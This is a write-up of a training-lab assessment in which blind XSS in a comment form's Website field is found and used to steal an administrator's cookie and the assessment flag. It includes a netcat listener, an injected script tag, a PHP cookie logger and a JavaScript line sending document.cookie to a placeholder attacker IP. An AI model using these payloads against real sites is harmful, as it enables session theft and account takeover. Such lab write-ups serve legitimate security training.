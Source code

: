 ## Cross-Site Scripting (XSS) - Skills Assessment Write-up


### Objective

The goal of this assessment was to identify and exploit Cross-Site Scripting (XSS) vulnerabilities within the `/assessment` directory of the target application, and to extract sensitive information by leveraging the discovered weakness.


### Reconnaissance

Upon accessing the `/assessment` directory, I was presented with a page that included a **comment submission form**.  

The form contained the following input fields:
- **Comment**
- **Name**
- **Email**
- **Website**

Additionally, there was an option to save user details for later use.

![](screenshots/1.png)


### Initial Testing

I first submitted a benign comment to observe the behavior of the form. The application responded with:

![](screenshots/2.png)

This indicated that while the input was accepted, it would not be displayed to us directly. Instead, the submitted content was likely stored and later rendered on an **administrator-only page**.  

As a result, any XSS payloads would not execute in our own session, but could potentially trigger when viewed by a privileged user (e.g., a moderator).  

Based on this behavior, I focused on testing **Blind XSS**.


### Blind XSS Discovery

Next, I attempted a **Blind XSS attack** by setting up a listener:

```bash
sudo nc -lvnp 80 -s <attacker_ip>
```

I injected payloads using the template `test<script src="http://<attacker_ip>/<field_name>"></script>` into multiple form fields:

![](screenshots/3.png)

The listener confirmed that the Website field was vulnerable when the application attempted to load the external resource:

![](screenshots/4.png)


### Exploitation

To exfiltrate cookies from the vulnerable application, I created the following files on my server:

```index.php
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```

```script.js
new Image().src='http://<attacker_ip>/index.php?c='+document.cookie;
```

I then hosted these files using PHP’s built-in server, as Netcat was unable to correctly process the incoming HTTP requests:

```bash
sudo php -S <attacker_ip>:80
```

Finally, I injected the following payload into the Website field to trigger the exploit:

```
test<script src="http://<attacker_ip>/script.js"></script>
```


### Results

The victim browser executed my payload, requested `script.js`, and subsequently sent the cookies to `index.php`, which saved them to `cookies.txt`:

![](screenshots/5.png)


## Conclusion

The Website field of the comment submission form was vulnerable to Blind XSS. By leveraging this issue, I successfully executed arbitrary JavaScript on the victim browser and exfiltrated session cookies, including the assessment flag.

This confirms the presence of a critical XSS vulnerability that could allow attackers to steal sensitive user data and compromise accounts.


### Key Takeaways

- No visible execution occurred for Stored, Reflected, or DOM-based XSS payloads  
- Blind XSS successfully triggered via the **Website** field  
- External script execution enabled cookie exfiltration  
- Captured session data revealed the assessment flag

